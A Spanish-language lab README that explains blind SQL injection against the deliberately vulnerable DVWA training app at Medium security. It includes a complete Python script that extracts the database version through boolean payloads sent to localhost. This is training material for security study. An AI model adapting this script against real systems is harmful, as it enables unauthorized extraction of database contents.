


# Vulnerabilidad de Inyección SQL Ciega - Nivel Medio (Automatizada)

Este README describe brevemente la vulnerabilidad de Inyección SQL Ciega y cómo explotarla de forma automatizada en el nivel de seguridad Medio, basándonos en el script `poc.py` proporcionado.

## Resumen de la Vulnerabilidad de Inyección SQL Ciega

La Inyección SQL Ciega es una variación de la Inyección SQL donde el atacante no recibe mensajes de error detallados de la base de datos. La información se infiere observando las respuestas de la aplicación a consultas SQL inyectadas que producen resultados booleanos (verdadero o falso), manifestándose en cambios en el contenido, tiempo de respuesta, etc.

## Explotación Automatizada (con el script `poc.py`) - Nivel de Seguridad Medio

El script `poc.py` proporcionado demuestra cómo automatizar la extracción de la versión del sistema de gestión de bases de datos (DBMS) utilizando Inyección SQL Ciega.

### Configuración Inicial del Script

El script comienza importando las librerías `requests` y `string`. Se define un diccionario de `proxies` si se utiliza un proxy como Burp Suite. Se crea una sesión HTTP (`requests.Session()`) para mantener las cookies de sesión (`PHPSESSID`) y el nivel de seguridad (`security`). **Es crucial reemplazar el valor de `PHPSESSID` con el de tu propia sesión y asegurarse de que la cookie de seguridad esté configurada en `medium`.** Se define la `URL objetivo` (`u`).

### Encontrar la Longitud de `@@version`

El script itera a través de posibles longitudes de la versión de la base de datos (de 1 a 29). Para cada longitud `i`, construye una carga útil SQL que pregunta si la longitud de la versión es igual a `i`: `1 and length(@@version)=i#`. Envía una petición POST a la URL objetivo con el parámetro `id` establecido a la carga útil y `Submit` a "Submit". Analiza la respuesta (`resp.text`). Si la cadena "MISSING" no se encuentra en la respuesta, se asume que la condición es verdadera, se guarda la longitud (`len`) y se detiene el bucle.

### Recuperar la Cadena de `@@version`

El script itera a través de cada posición de carácter en la cadena de la versión (de 1 a `len`). Para cada posición `i`, itera a través de todos los caracteres imprimibles (`string.printable`). Para cada carácter `c`, construye una carga útil SQL que pregunta si el carácter en la posición `i` de la versión de la base de datos tiene el valor ASCII de `c`: `1 and ascii(substring(@@version,i,1))=hex(ord(c))#`. Envía una petición POST con la carga útil. Analiza la respuesta. Si "MISSING" no está presente, se asume que la condición es verdadera y se añade el carácter `c` a la variable `version`.

### Ejecución del Script

1.  Guarda el siguiente código como `poc.py`:

    ```python
    """
    example output of @@version: 5.7.16-0ubuntu0.16.04.1

    first find length of the @@version string:
    1 and length(@@version)=7#

    iterate thru printable ASCII and retreive @@version string
    1 and ascii(substring(@@version,1,1))=0x35#
    """

    import requests
    import string
    from urllib.parse import quote, unquote

    #proxies = {
    #    "http" : "http://127.0.0.1:8080/"
    #}

    # initiate HTTP session
    session = requests.Session()
    session.cookies['security'] = 'medium'
    session.cookies['PHPSESSID'] = 'TU_PHPSESSID'

    u = 'http://localhost/DVWA/vulnerabilities/sqli_blind/index.php'

    # find length of @@version string
    for i in range(1, 30):
        payload = "1 and length(@@version)=" + str(i) + "#"
        params = {'id': payload, 'Submit': "Submit"}
        resp = session.post(u, data=params)

        if resp.text.find("MISSING") == -1:
            len = i
            break

    # retreive @@version string
    version=""
    for i in range(1, len + 1):
        for c in string.printable:
            payload = "1 and ascii(substring(@@version,{0},1))={1}#".format(i, hex(ord(c)))
            params = {'id': payload, 'Submit': "Submit"}
            resp = session.post(u, data=params)

            if resp.text.find("MISSING") == -1:
                print (payload)
                version += c

    print (version)
    ```



2.  **Reemplaza `'TU_PHPSESSID'` con el valor de tu cookie `PHPSESSID`** obtenida al inspeccionar las cookies de tu navegador mientras interactúas con DVWA en el nivel de seguridad Medio.
3.  **Asegúrate de que la variable `u` contenga la URL correcta de la página de Inyección SQL Ciega de DVWA.**
5.  Ejecuta el script desde tu terminal con `python3 poc.py`.

El script automatizará el proceso de enviar múltiples peticiones y analizar las respuestas para extraer la versión de la base de datos, evitando las limitaciones de la Inyección SQL Ciega en el nivel de seguridad Medio.


